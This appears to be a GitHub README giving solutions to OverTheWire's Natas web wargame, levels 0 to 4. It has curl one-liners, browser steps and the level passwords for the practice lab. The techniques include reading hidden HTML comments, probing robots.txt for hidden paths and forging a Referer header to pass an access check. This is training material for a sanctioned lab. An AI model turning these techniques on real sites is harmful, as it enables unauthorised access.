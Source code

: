 # Solution

---

- natas0
    - ```Login to web:```
    - ```inspec element the page and look for comments```

- other solution:
    - ```view-source:http://natas0.natas.labs.overthewire.org/```

- curl:
    - ```curl -sv http://natas0.natas.labs.overthewire.org/ --user natas0:natas0 | grep -oe '<!--[A-Za-z].*' | cut -d ' ' -f6```

- python:
    - [natas0/solve.py](https://github.com/catx0rr/overthewire/blob/master/natas/natas1/solve.py)

- natas1
    - ```Login to web:```
    - ```view-source:http://natas0.natas.labs.overthewire.org/```

- curl:
    - ```curl -sv http://natas1.natas.labs.overthewire.org --user natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto | grep -o '<!--[A-Za-z].*' | awk '{print $6}'```
- python:
    - [natas1/solve.py](https://github.com/catx0rr/overthewire/blob/master/natas/natas1/solve.py)

- natas2
    - ```Login to web:```
    - ```view-source:http://natas2.natas.labs.overthewire.org```
    - ```click on files/pixel.png```
    - ```go back one directory and found users.txt```

- curl:
    - ```curl -sv http://natas2.natas.labs.overthewire.org/files/users.txt --user natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi | grep natas3 | awk -F: '{print $2}'```

- python:
    - [natas2/solve.py](https://github.com/catx0rr/overthewire/blob/master/natas/natas2/solve.py)

- natas3
    - ```Login to web:```
    - ```view-source:http://natas3.natas.labs.overthewire.org```
    - ```HINT:Not even Google will find it this time...```
    - ```http://natas3.natas.labs.overthewire.org/robots.txt```
    - ```Found: /s3cr3t/```
    - ```http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt```

- curl:
    - ```curl -sv http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 | grep natas4 | cut -d':' -f2```

- python:
    - [natas3/solve.py](https://github.com/catx0rr/overthewire/blob/master/natas/natas3/solve.py)

- natas4
    - ```Login to web:```
    - ```Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/" ```
    - ```Intercept data using proxy and burpsuite```
    - ```refresh page```
    - ```get a referer header from burpsuite: Referer: http://natas4.natas.labs.overthewire.org/index.php```
    - ```Send packet after changing request header to http://natas5.natas.labs.overthewire.org/```

- curl:
    - ```curl -sv http://natas4.natas.labs.overthewire.org/index.php -H "Referer: http://natas5.natas.labs.overthewire.org/" --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ | grep "Access" | cut -d' ' -f8```